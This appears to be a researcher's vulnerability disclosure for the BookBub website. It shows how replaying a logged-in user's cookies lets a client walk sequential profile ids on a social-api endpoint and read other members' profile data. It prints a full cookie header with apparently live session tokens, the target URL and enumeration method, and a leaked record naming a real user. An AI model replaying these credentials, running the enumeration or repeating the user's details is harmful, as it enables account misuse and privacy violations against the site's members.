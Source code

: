 # About BookBub Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: __cf_bm=kKz7.8FQFb682ZrCNueMhOKCR7rXONylX2H0qp62C3A-1712125285-1.0.1.1-j6ElY5TTn6Cg5DfnSxwZTcWe3fClDdUAsZAaanwtsdRRxpOgYrDadGLSF4BQySffMrGkHLsGyoB09M90.Ck.qQ; _gcl_au=1.1.21048170.1712125288; _ga=GA1.1.386216571.1712125288; _li_dcdm_c=.bookbub.com; _lc2_fpi=6a2fe0e75190--01hth9x9gxd9hsgp91rt3q34mk; _lc2_fpi_meta={%22w%22:1712125290013}; _li_ss=CoABCgUIChDMFwoGCN0BEMwXCgUICRDMFwoGCOEBEMwXCgYIgQEQzBcKBgiiARDMFwoJCP____8HENYXCgYIiwEQzBcKBgjjARDMFwoGCKQBEMwXCgYIswEQzBcKBgiJARDMFwoGCKUBEMwXCgYI0gEQzBcKBQh-EMwXCgYIiAEQzBc; remember_user_token=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaGJDRnNHYVFSYWV3TUNTU0lpSkRKaEpERXlKRk5pWW5sUU5FMHhPRUZhVkVNMFdGTklOM1l5Unk0R09nWkZWRWtpRlRFM01USXhNalV6TVRRdU9UazRPVElHT3dCRyIsImV4cCI6IjIwMzUtMDQtMDNUMDY6MjE6NTQuOTk4WiIsInB1ciI6bnVsbH19--64a142505ed7448b09de000d4c0b9331e9f71180; subscriber_id=33782618; bb_trck=eyJ0aWQiOjExMTMxNzcxNTAsInVpZCI6IjMzNzgyNjE4IiwiY3J0IjoxNzEy%0AMTI1Mjg1fQ%3D%3D%0A--3597bb2d5baf798f0389afc1ebafed18de1ce556; region=us; country_code=us; member-status=r; _li_ss_meta={%22w%22:1712125371275%2C%22e%22:1714717371275}; _lello2_session=3r3jDSAFPq9dUDdivHpGE2Mi2AHhnrhqBL7X4DlDzpEF2%2FKdAQH6p10Ieq6Nk0qFY8tWroqWQQDp5sHxRvjbwx8fwhMVkLWD7yd4BlRYIOJD2B6QXKyi4RBx3ZDaOB1QuLxYOtOFvzjMI%2BRPAmgSqEKfCtYvCXBOZYCqbMGiFF8JsIvHRQ66n%2FoAawoGbtGXVa45yIJPQ0mSMN9D9vMF374TRJvpWxYjhuOCZLHMFDIrtuFpIvRZcq%2F36zBtVyShbutu%2FQJCEfSR0lXFTmUKQNI6UXNd5jMscW4TZHb6nWBv3hVzL%2BpGi%2BGEhlko%2BNCmXpBg1iBt6axEzo2UUdgs1VaYITER3F2syzjxQPMd%2BPRmg1ADG025ag9wvxeiw5IwWsxzbg2uWbzIxF68ZebsUGNqDSLgHIJ7vfrIgNf7BYz69AOo8jKYAaYjNvyNN4JZ01tMZ1GfYpkn9BYZsuaPy7gEGaqOmlrY%2FII%2FvDkuIDoGgOeqIfenrTh15pDQt3%2BvaPvoveAKqT2uYLu2r2ADQhNc5gTEbymQSZurjRmIIPlS7eHWvAx8M5CF8PHLD3VZcpGQoqEI2NdvJGHXQk%2FPYNrZbHuk0UpGrGX%2BiRVJwDq3ZuZQE%2FNspbjpBeqAjRfHa%2FGvDXkog3I7zIXj6hxpOAPFm8XaS71yi2NZ11FD1jnDLh5HKZr%2B%2BfC%2B4PIgv6n%2FFafAymbX6zXN8mwoeaTmBbySpOSrW3%2BY1a9HO96TNzB%2FHp6yDVPlzYuG4lKniz9hs4qV1kQP4B8I%2BAGbfjrCP6IHcG1wfcZ3pabmSKyn%2BFTG6Wq%2FrqIJ5Cwd%2Bs%2B5ZEt8FWVyzJxiP4TnND4tcDoft172vHSihhgFBH42adzVghTKXgqd%2BxVm7tTYEBAKPB%2FVxgXY4LuV6R0%2Bd1oXbLD0iYCzbwxep8B6hOuRgj4Nm5Lzix2zgw%2B8G5lEtK%2FlUG2ESAH3cjfHuoQ4XRAL6Axm4XRyjXIvYMLTwQCLvmqP1yM7IirVXV7PMJ88tEVJKI89EgLx9Asdn5rQz6i3eSQGoIQeB4UhFbKJyktcYXNLTevslrMCGWL9tUt%2BeQs1rBrpLbQqKjMVe44fh9WSotx4%2Bq0Ly%2BCBxcygcrWHLEO%2FRL3cxvMm2kuKb%2F2tNB8qDD2GkqN%2F4lOiX97GqSEQiQBNJQwRxuqqDArXpq0Kmcno3ivuziYLV127yMJgbhtKHM7tQyw4%2BoEdAHVrqt0ykLKQBfRLsVJwgdICNhnkhD%2B0yHWFgMOb6HzTHW3CSctk1TubnZQoO5k%3D--lksAhasHHdxKmr24--xjgUjHoSuniyyVZTfH8EVA%3D%3D; _ga_CQ6ZYMZH0N=GS1.1.1712125287.1.1.1712125378.51.0.0
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: name.

> Request method: GET, information can be obtained by traversing the constructed Personal Unique Identifier,such as "41247492","41247491"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|---------|---|-----------|
|yizhimuzhu666|https://social-api.bookbub.com/profiles/post_count?id=41247492|Id=41247492|



### Leaked packet cases 
``` 
{
    "id": 41247492,
    "userId": *******9,
    "authorId": null,
    "displayName": "@dorothyhowell35",
    "name": "d***********",
    "username": "dorothyhowell35",
    "imageUrl": "https://d2rel4whvde6w7.cloudfront.net/email_assets/default_profile_image/d.png",
    "profileUrl": "https://www.bookbub.com/profile/3188451398",
    "defaultImage": "blue-grey",
    "tagline": null,
    "biography": null,
    "slug": "3188451398",
    "state": "visible",
    "private": false,
    "countryCode": "us",
    "isFollowing": null,
    "recommendationCount": 0
}
```